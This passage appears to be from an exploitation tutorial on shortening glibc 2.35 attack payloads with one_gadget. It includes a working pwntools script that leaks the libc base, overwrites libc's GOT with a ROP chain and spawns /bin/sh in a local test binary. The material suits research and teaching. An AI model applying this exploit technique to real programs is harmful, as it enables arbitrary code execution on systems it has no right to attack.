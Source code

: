 ## one_gadget - 0x40

What if we combine one_gadgte and our methods?
Can we make it shorter?

The answers are yes and no. It depends on the libc and the context when you hit the gadget. That's a complex problem and I may write a tool when I have time.

I'll show you a case in this section to show that combining one_gadget can make the payload shorter.

If we have such a one_gadget
```sh
0xf7e22 posix_spawn(rsp+0x54, "/bin/sh", [rsp+0x30], 0, rsp+0x60, [rsp+0x160])
constraints:
  [rsp+0x60] == NULL
  [[rsp+0x160]] == NULL || [rsp+0x160] == NULL
  [rsp+0x30] == NULL || (s32)[[rsp+0x30]+0x4] <= 0
```

If pos=6, we can make a 0x40-byte payload.
```py
from pwn import *

context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P']
libc = ELF("/glibc/x64/2.35/lib/libc.so.6")
p = process("./sink",env={"LD_PRELOAD":"/glibc/x64/2.35/lib/libc.so.6"})
gdb.attach(p,'''b *0x7ffff7c2c000''')
base = int(p.readline(),16) - (0x7ff6a25244a0-0x7ff6a24c8000)
libc.address=base
dest = libc.dynamic_value_by_tag("DT_PLTGOT")+base
plt0 = libc.address + libc.get_section_by_name(".plt").header.sh_addr
context.arch='amd64'
context.log_level='debug'
pop_rsp = 0x00000000000c9fa6+base
sh = libc.search(b"/bin/sh").__next__()
leave = 0x00000000000306dd+base
rax = 0x0000000000044a60+base
one_gadget = 0xf7e22+base
payload = flat([dest+0x18,pop_rsp,rax,one_gadget,leave,dest+0x938,0xdeadbeef,plt0])
p.send(p64(dest+0x8))
success(hex(len(payload)))
p.send(p64(len(payload)))
p.send(payload)
p.interactive()
```


# Two Shots

Idea: ROP to call read

```
Assume `Pos=x``,

If x>=4

then,

Len(payload) = 0x10+Pos*8

else:

Len(payload) = 0x10+Pos*8+3*8
```


[2]: ../Infra/SinkFinder.py
[3]: ../Code
[4]: ../Temp.md